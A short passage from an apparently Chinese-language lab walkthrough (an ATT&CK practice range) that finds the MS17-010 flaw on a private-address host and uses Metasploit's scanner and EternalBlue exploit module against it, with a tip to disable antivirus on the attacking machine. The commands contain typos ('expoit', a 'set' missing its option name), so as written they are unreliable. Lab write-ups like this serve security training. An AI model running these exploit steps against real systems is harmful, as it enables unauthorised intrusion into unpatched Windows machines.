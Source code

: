 2. 发现ms17-010，使用msf扫一下
   
   ```shell
   search ms17_010
   use 3
   set rhost 192.168.2.135
   exploit
   ```
   
   ![14.png](img/ATT&CK/ATT&CK1/png14.png)
   
   ![15.png](img/ATT&CK/ATT&CK1/png15.png)

3. 扫描确认漏洞存在，使用exp进行利用（记得先把攻击机器上的杀软关掉，否则攻击会被拦截）
   
   ```shell
   use windows/smb/ms17_010_eternalblue
   set 192.168.2.135
   expoit
   ```
   
   ![16.png](img/ATT&CK/ATT&CK1/png16.png)
